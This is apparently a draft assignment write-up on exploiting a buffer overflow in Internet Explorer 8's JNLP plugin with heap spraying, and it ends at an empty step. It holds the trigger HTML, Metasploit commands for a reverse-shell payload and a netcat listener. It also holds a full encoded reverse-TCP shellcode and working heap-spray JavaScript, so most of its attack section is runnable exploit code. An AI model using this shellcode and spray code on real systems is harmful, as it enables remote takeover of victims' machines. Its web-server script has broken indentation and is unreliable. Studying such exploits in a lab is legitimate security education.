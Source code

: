 # Exploiting a Buffer Overflow Vulnerability in the JNLP plugin within Internet Explorer 8 with using the Heap Spraying Technique
*This is still a draft*

JNLP (Java Network Launch Protocol) enables an application to be launched on a client desktop using resources that are hosted on a remote server. A specific version of JNLP for IE8 is vulnerable to a stack-based buffer overflow: when the plugin is invoked with a **launchjnlp** parameter, it will copy the value of the **docbase** parameter to a stack buffer using `sprintf`, but fails to check the length of the value. 

The vulnerability can be triggered by the following:
```html
<object type='application/x-java-applet'>
<param name='launchjnlp' value='1'>
<param name='docbase' value='AAAAAAAA....AAAAAA'>
</object>
```

## Goal
Input a sufficiently long string in the **docbase** value such that the register $eip gets ovewritten with an address known to contain our NOP sled and shellcode. Said shellcode establishes a reverse TCP connection to another machine.

## How it's done
To demonstrate this vulnerability, a simple web server is set up to listen on port 8080. This web server shows the contents of a specific directory in which the html file (containing the exploit) is located. The html file is clicked from the client and nothing appears to happen, but the truth is that the heap is sprayed with a shellcode! It is not until the client clicks on *Click Me* that at least one the shellcodes in the heap gets executed. This shellcode consists of several NOP operations and a reversed TCP connection to a chosen IP and port. The port used is *6666*, and to simplifly the assignment's grading, the chosen IP is 127.0.0.1, which means that the command prompt will be obtained in the client instead of in the attacker's machine (or Kali, in this case).

## Specifics
1. Two machines are used to demonstrate this vulnerability. A Windows 7 VM (with DEP disabled) acts as the client, and a Kali Linux VM acts as the web server.

2. A Windows shellcode is generated with Metasploit, which is a tool already installed in Kali Linux. The instructions in this shellcode create a reverse TCP connection from said Windows machine to a chosen IP and port. In other words, these instructions would spawn the victim's command prompt in the attacker's machine; but for practicality, the IP chosen as the attacker's IP does not belong to the attacker and it is the victim's machine, 127.0.0.1. Using the attacker's IP will make the demo realistic, but it will not make it easy to the grader of this assignment.

The shellcode is generated as follows:

`msfconsole`

`use payload/windows/shell_reverse_tcp`

`set LHOST 127.0.0.1`

`set LPORT 6666`

`generate -t js_le`

In the last command, **js_le** was used because a JavaScript shellcode is needed and the Windows machine that is targeted uses Little Endian (le).

3. To accept this reverse TCP connection in Windows, the following netcat command is needed:

`nc -l -p 6666`

**-l** specifies that nc should listen for an incoming connection, and **-p** specifies the source port.

4. Windows debugger, WinDBG, is helpful to visualize the stack and heap contents and gather information for the exploit.

5. The script that sets up a web server is provided, and it looks like this:

```python
#!/usr/bin/python
#
# Python Web Server
# Serves only static files
#
# by Saumil Shah

import sys
import BaseHTTPServer
from SimpleHTTPServer import SimpleHTTPRequestHandler

port = 8080

class HandlerClass(SimpleHTTPRequestHandler):
        # Disable DNS lookups
        def address_string(self):
                    return str(self.client_address[0])
                    ServerClass = BaseHTTPServer.HTTPServer
                    Protocol = "HTTP/1.0"
                    server_address = ('0.0.0.0', port)
                    HandlerClass.protocol_version = Protocol
                    httpd = ServerClass(server_address, HandlerClass)
    try:
        sa = httpd.socket.getsockname()
        print "Serving HTTP on", sa[0], "port", sa[1], "..."
        httpd.serve_forever()
    except KeyboardInterrupt:
        print 'Shutting down the web server'
        httpd.socket.close()
```

6. To use the heap spraying technique, a string that follows the pattern "NOP Sled + Shellcode" is created in JavaScript. This string is successfully sprayed in the heap to occupy hundreds of megabytes.

7. Once we know a specific address in the heap contains the beggining of the shellcode, that is, the NOP sled, we can concatenate that address at the end of the input to **docbase** to override $eip, and therefore, be able to jump to the shellcode.

## Steps

1. Test different length inputs for **docbase** to determine the number of bytes needed to override $eip. In this case, 396 will override $eip and nothing more. This means that 392 bytes are needed just before the 4 bytes address that we want to point $eip to. This address will be determined when the heap is sprayed.

2. To spray the heap with the shellcode, an array **a** is initialized and a function **heap_spray()** is specified to populate **a**

```javascript
<script> 
    var a = new Array();
    function heap_spray() {
   
        var shellcode = unescape("%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u685d%u3233%u0000%u7768%u3273%u545f%u4c68%u2677%uff07%ub8d5%u0190%u0000%uc429%u5054%u2968%u6b80%uff00%u50d5%u5050%u4050%u4050%u6850%u0fea%ue0df%ud5ff%u6a97%u6805%u007f%u0100%u0268%u1a00%u890a%u6ae6%u5610%u6857%ua599%u6174%ud5ff%uc085%u0c74%u4eff%u7508%u68ec%ub5f0%u56a2%ud5ff%u6368%u646d%u8900%u57e3%u5757%uf631%u126a%u5659%ufde2%uc766%u2444%u013c%u8d01%u2444%uc610%u4400%u5054%u5656%u4656%u4e56%u5656%u5653%u7968%u3fcc%uff86%u89d5%u4ee0%u4656%u30ff%u0868%u1d87%uff60%ubbd5%ub5f0%u56a2%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff")

        var nops = unescape("%u9090%u9090");

        while(nops.length <= 0x100000-shellcode.length){
            nops += nops;
        }

        nops += shellcode;

        for(i = 0; i < 200; i++) {
            a[i] = nops;
            a[i].substring(0,1); //This is only used to trick the memory allocator 
        }
    }
    .  
    .
    .
</script>
```
The 0x90 bytes that conform the NOP sled have to be passed to the function **unescape()** to let javascript know that the string is already represented in hex. 

Without the second line within the for loop, the memory allocator fails to spray the heap and only allocated one block. 

3. 

